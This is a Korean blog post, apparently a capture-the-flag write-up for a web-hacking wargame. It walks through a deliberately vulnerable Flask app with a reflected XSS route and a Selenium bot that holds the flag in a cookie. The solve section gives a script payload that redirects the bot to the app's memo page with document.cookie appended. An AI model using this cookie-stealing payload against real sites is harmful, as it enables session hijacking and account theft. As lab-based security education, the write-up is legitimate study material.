 ```yaml
---
title:  "28.XSS-1"
excerpt: "28.XSS-1"
categories:
  - wargame
tags:
  - wargame
  - Webhacking
last_modified_at: 2021-12-29
toc: true
toc_sticky: true
---
```


# Question info.
여러 기능과 입력받은 URL을 확인하는 봇이 구현된 서비스입니다.  
XSS 취약점을 이용해 플래그를 획득하세요. 플래그는 flag.txt, FLAG 변수에 있습니다.

# Function analysis
![28_1](/assets/images/wargame/28_1.PNG)  

![28_2](/assets/images/wargame/28_2.PNG)  

![28_3](/assets/images/wargame/28_3.PNG)  

![28_4](/assets/images/wargame/28_4.PNG)  

vuln(xss) page 링크를 클릭하면 Alert창이 뜨면서 1이 나온다.  
``vuln?param=<script>alert(1)</script>``  
memo 링크를 클릭하면 hello가 입력된다.  
``memo?memo=hello``  
flag 링크를 클릭하면 인자를 입력하는 페이지가 나온다.

# Code analysis
```python
#!/usr/bin/python3
from flask import Flask, request, render_template
from selenium import webdriver
import urllib
import os

app = Flask(__name__)
app.secret_key = os.urandom(32)

try:
    FLAG = open("./flag.txt", "r").read()
except:
    FLAG = "[**FLAG**]"


def read_url(url, cookie={"name": "name", "value": "value"}):
    cookie.update({"domain": "127.0.0.1"})
    try:
        options = webdriver.ChromeOptions()
        for _ in [
            "headless",
            "window-size=1920x1080",
            "disable-gpu",
            "no-sandbox",
            "disable-dev-shm-usage",
        ]:
            options.add_argument(_)
        driver = webdriver.Chrome("/chromedriver", options=options)
        driver.implicitly_wait(3)
        driver.set_page_load_timeout(3)
        driver.get("http://127.0.0.1:8000/")
        driver.add_cookie(cookie)
        driver.get(url)
    except Exception as e:
        driver.quit()
        # return str(e)
        return False
    driver.quit()
    return True


def check_xss(param, cookie={"name": "name", "value": "value"}):
    url = f"http://127.0.0.1:8000/vuln?param={urllib.parse.quote(param)}"
    return read_url(url, cookie)


@app.route("/")
def index():
    return render_template("index.html")


@app.route("/vuln")
def vuln():
    param = request.args.get("param", "")
    return param


@app.route("/flag", methods=["GET", "POST"])
def flag():
    if request.method == "GET":
        return render_template("flag.html")
    elif request.method == "POST":
        param = request.form.get("param")
        if not check_xss(param, {"name": "flag", "value": FLAG.strip()}):
            return '<script>alert("wrong??");history.go(-1);</script>'

        return '<script>alert("good");history.go(-1);</script>'


memo_text = ""


@app.route("/memo")
def memo():
    global memo_text
    text = request.args.get("memo", "")
    memo_text += text + "\n"
    return render_template("memo.html", memo=memo_text)


app.run(host="0.0.0.0", port=8000)


```

```python
from selenium import webdriver

def read_url(url, cookie={"name": "name", "value": "value"}):
    cookie.update({"domain": "127.0.0.1"})
    try:
        options = webdriver.ChromeOptions()
        for _ in [
            "headless",
            "window-size=1920x1080",
            "disable-gpu",
            "no-sandbox",
            "disable-dev-shm-usage",
        ]:
            options.add_argument(_)
        driver = webdriver.Chrome("/chromedriver", options=options)
        driver.implicitly_wait(3)
        driver.set_page_load_timeout(3)
        driver.get("http://127.0.0.1:8000/")
        driver.add_cookie(cookie)
        driver.get(url)
    except Exception as e:
        driver.quit()
        # return str(e)
        return False
    driver.quit()
    return True
```

왜? Selenium을 사용했을까?  
selenium은 동적 웹을 스크래핑할 때 사용하는 라이브러리이다.  
chromedriver를 이용해서 크롬 창을 띄운 뒤 마우스로 스크래핑하듯 모두 긁는다.  
``driver.get("http://127.0.0.1:8000/")``  
서버 측에 브라우저를 연다.

```python
try:
    FLAG = open("./flag.txt", "r").read()
except:
    FLAG = "[**FLAG**]"
```

FLAG값은 flag.txt에 들어 있다.

```python
def check_xss(param, cookie={"name": "name", "value": "value"}):
    url = f"http://127.0.0.1:8000/vuln?param={urllib.parse.quote(param)}"
    return read_url(url, cookie)
```

check_xss는 flag링크에서 파라미터를 입력하고 '제출'을 누르면 실행되는 함수다.  
보면 서버 측 브라우저에 파라미터 값이 넘어가서 실행되는 것을 알 수 있다.






# Solve

이 문제는 서버 쪽에서 실행된 브라우저를 조작하여 flag값을 얻는 문제였다.  
서버 측 브라우저에게 memo 페이지로 접근하게 하고 서버 측 쿠키값을 memo 페이지에 적도록 유도하는 문제이다.
memo 페이지에 계속 쌓이는 값들은 html 파일에 그대로 축적되는 것이라서 서버에 그대로 적용된다.  
그래서 서버나 클라이언트가 memo 페이지에 접근해도 값이 그대로 남아 있게 된다.  


``즉, vuln 페이지에서 파리미터로 넣은 JS 코드를 실행시켜 memo 페이지로 가게 유도하고 쿠키값을 적게 하면된다. ``

![28_5](/assets/images/wargame/28_5.PNG)  

flag 페이지에서 파라미터로  

```html
<script>window.location.href="http://127.0.0.1:8000/memo?memo="+document.cookie;</script>
```

을 넣으면 된다.

![28_6](/assets/images/wargame/28_6.PNG)  

memo 페이지로 가서 확인해보면 flag값이 나와 있다.







